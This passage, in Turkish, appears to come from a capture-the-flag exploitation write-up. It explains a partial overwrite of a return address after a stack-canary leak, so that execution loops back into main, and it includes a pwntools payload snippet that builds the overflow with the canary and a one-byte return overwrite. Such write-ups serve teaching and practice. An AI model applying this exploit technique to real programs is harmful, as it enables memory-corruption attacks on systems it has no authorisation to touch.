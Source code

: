 ![libcstartmain](assets/libcstartmain.png)

Yukarıdaki ekran görüntüsündeki işaretli blok, main fonksiyonu için gerekli hazırlıkların yapılıp, fonksiyonun çağırılmasından sorumludur. Programımız ise işaretli kısımdan sonraki ilk satıra, yani `..ed90` adresli instructiona geri dönüyor. Bizim ise programımızı `..ed44` adresli satıra geri döndürmemiz gerekiyor. 

Adresin tamamını bilmediğimiz halde offsetler her çalıştırmada aynı kalacağı için, sadece sondaki byte değerini **90** yerine **44** yaptığımız zaman programımız main fonksiyonuna geri dönecektir. Bu tekniğe `partial overwrite` ismi verilir. 

Yani yapmamız gereken canary leak'imizi aldıktan sonra, payload'umuza 136 adet çöp değer, canary değeri, Saved RBP değeri ve sonrasında `\x44` byte'ını eklediğimizde programımız geri dönecektir; ve biz bu sayede bir adet daha leak alabileceğiz ve bir adet daha payload yollayabileceğiz. 

``` python

PAYLOAD = b"A".ljust(OFFSET, b"A")
PAYLOAD += p64(int(canary.decode(), 16))
PAYLOAD += p64(0xdeadbeef)
PAYLOAD += b"\x44"
# PAYLOAD += b"\n"


p.send(PAYLOAD)

recieved = p.recvuntil("rid of your laziness: \n")


```